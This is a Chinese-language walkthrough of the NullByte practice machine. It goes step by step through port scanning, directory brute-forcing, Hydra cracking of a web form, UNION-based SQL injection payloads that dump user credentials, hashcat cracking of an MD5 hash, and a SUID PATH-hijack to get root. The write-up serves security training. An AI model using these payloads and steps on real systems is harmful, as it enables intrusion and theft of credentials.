# NullByte 靶场

## 主机发现

```bash
sudo nmap -sn 10.10.10.10
```


靶机的主机为 10.10.10.7

## 服务识别

使用 nmap 对靶机进行扫描，寻找靶机开放的端口以便于进行更进一步的渗透测试

扫描开放的端口
```bash
sudo nmap --min-rate 10000 -p- 10.10.10.7
```



扫描开放端口的基本信息，并将结果保存到本地以便于随时观看
```bash
sudo nmap -sT -sC -sV -p80,111,777,48675 10.10.10.7 -oA nmap/Scan
```



使用 nmap 进行默认的漏洞脚本扫描，并将结果保存到本地
```bash
sudo nmap --script=vuln -p80,111,777,48675 10.10.10.7 -oA nmap/Script
```

经过分析发现靶机运行的是 Apache 服务；
777 端口运行的是 SSH 服务，

暂时没有新的发现，先访问 80 端口

## WEB渗透

### 80 端口渗透

打开 80 页面发现只有一张图片和一句话


查看源码发现这是一个 gif 文件，把他下载下来

```bash
wget http://10.10.10.7/main.git
```

### 目录爆破

使用 gobuster 执行目录爆破，尝试发现新的目录

```bash
sudo gobuster dir -u http://10.10.10.7 -w /usr/share/dirb/wordlists/common.txt
```



逐个尝试发现只有 /phpmyadmin 是能访问的，并且这是一个 sql 管理后台登入界面。

尝试弱密码和万能密码登入均无效，暂时放弃。

### gif 寻找信息

拿到 gif 图片，先使用 strings 查看有没有有价值的字符串

```bash
strings main.gif
```

发现 kzMb5nVYJw 这个字符串很可疑，可能有突破的价值



继续使用 Exiftool 发掘 gif 剩余价值

```bash
exiftool main.gif
```



Comment 处写着 kzMb5nVYJw ，说明这串字符串极有可能是突破口，使用 hash-identifier 没有识别出来是什么加密，单串字符串是账号密码的可能性也不大，因此尝试作为地址能不能有新发现



查看源码



提示这个密码不复杂

### Hydra 破解 hash

输入框尝试弱密码 admin 报错



查看网络发现这是一个 post 请求，使用 Hydra 对 hash 进行破解

```bash
sudo hydra -l "key" -P /usr/share/wordlists/rockyou.txt 10.10.10.7 http-form-post "/kzMb5nVYJw/index.php:key=^PASS^:invalid key"
```

 1. **路径**：`/kzMb5nVYJw/index.php`（表单提交地址）。
    
2. **参数**：`key=^PASS^`（将 `^PASS^` 替换为字典中的密码）。
    
3. **失败标记**：`invalid key`（服务器返回的错误提示文本）。


得到密码是 elite ，
登入后发现是一个 sql 查询

## msql 注入

输入 admin 发现提示寻找成功



尝试过后发现注入点为 " ，
进行测试发现字段为 3 ，
输出点为 
`" union select 1,2,3 -- -`
中的 3 ，
完整的测试代码如下

```bash
"

" or 1=1 -- -

" order by 3 -- -

" union select 1,2,3 -- -

" union select 1,2,version() -- -

" union select 1,2,database() -- -

" union select 1,2,user() -- -

" union select 1,2,TABLE_SCHEMA from INFORMATION_SCHEMA.tables -- -

" union select 1,2,table_name from INFORMATION_SCHEMA.tables -- -

" union select 1,2,column_name from INFORMATION_SCHEMA.columns where table_name='users' -- -

" union select 1,2,user from users -- -

" union select 1,2,pass from users -- -

" union select 1,2,position  from users -- -
```

在完整地测试过后在 users 中的 pass 里发现一串 base64 （base64 更多凭经验判断， hash-identifier 无法识别），



解密后得到一串字符串
`c6d6bd7ebf806f43c76acc3681703b81`

使用 hash-identifier 发现是 MD5 加密，使用 hashcat 破解它

```bash
vim hash/hash.lst

sudo hashcat -m 0 -a 0 hash/hash.lst /usr/share/wordlists/rockyou.txt
```

解密出来
`c6d6bd7ebf806f43c76acc3681703b81:omega`

## Linux 提权

使用 ssh 登入靶机

```bash
sudo ssh ramses@10.10.10.7 -p777 
```

查看历史记录

```bash
history
```


发现 /var/www 目录可能藏着提权的文件，
根据提示进行操作

```bash
cd /var/www
cd backup/
ls
cat readme.txt
```



没什么价值，查看文件权限

```bash
ls -liah
```



提示文件可能有 s 位执行权限，查看含有 s 位执行权限的文件

```bash
find / -perm -u=s -type f 2>/dev/null
./procwatch
```



果然有，运行查看结果



SUID 环境变量提权

```bash
ln -s /bin/sh ps

export PATH=.:$PATH

echo $PATH

./procwatch 
```

拿到 root 权限



## 总结

这台靶机不难，新手可以用来梳理思路